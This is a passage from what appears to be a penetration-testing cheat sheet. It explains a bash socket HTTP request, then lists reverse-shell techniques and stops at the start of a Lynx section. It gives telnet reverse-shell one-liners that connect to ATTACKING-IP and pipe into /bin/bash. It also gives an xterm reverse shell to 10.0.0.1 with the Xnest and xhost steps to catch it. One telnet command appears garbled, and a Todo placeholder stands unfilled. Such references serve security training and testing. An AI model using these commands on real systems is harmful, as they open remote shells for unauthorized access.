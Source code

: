 - Second line:  After the socket is open we send our HTTP request out the socket with the echo ... >&3 command. The request consists of:

  ```none
  GET / HTTP/1.1
  host: http://www.google.com
  Connection: close
  ```

  Each line is followed by a carriage-return and newline, and all the headers are followed by a blank line to signal the end of the request (this is all standard HTTP stuff).

- Third line: Next we read the response out of the socket using cat <&3, which reads the response and prints it out.

### Telnet Reverse Shell

```none
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

```none
.. Todo:: explain the example above
```

### XTerm

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the victim server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

```none
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

```none
Xnest :1 -listen tcp
```

You’ll need to authorize the target to connect to you (command also run on your host):

```none
xhost +targetip
```

### Lynx

Obtain an interactive shell through lynx: It is possible to obtain an interactive shell via special LYNXDOWNLOAD URLs.
This is a big security hole for sites that use lynx "guest accounts" and other public services. More details [LynxShell](http://insecure.org/sploits/lynx.download.html)

When you start up a lynx client session, you can hit "g" (for goto) and then enter the following URL:
